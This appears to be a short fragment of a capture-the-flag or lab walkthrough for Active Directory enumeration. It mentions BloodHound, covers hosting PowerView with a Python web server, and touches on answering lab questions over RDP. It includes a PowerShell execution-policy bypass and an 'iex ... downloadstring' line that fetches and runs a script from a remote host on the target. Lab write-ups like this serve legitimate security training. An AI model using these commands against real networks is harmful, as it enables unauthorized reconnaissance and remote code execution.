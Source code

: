 ```bash
```

Drag and drop zip file to bloodhound GUI

### PowerView

Host:

```bash
ln -s /opt/sectools/powershell/PowerSploit/Recon/PowerView.ps1 powerview.ps1
python -m http.server 80
```

Load on target:

```bash
powershell -ep bypass
iex(new-object system.net.webclient).downloadstring('http://10.50.68.167/powerview.ps1')
```

### Questions

#### How many Computer objects are part of the Servers OU?

##### MMC

Connecting via RDP to lookup with GUI is much easier

Using **remmina**

![](../../attachment/6bace3499789fb050fa13156c96bc813.png)
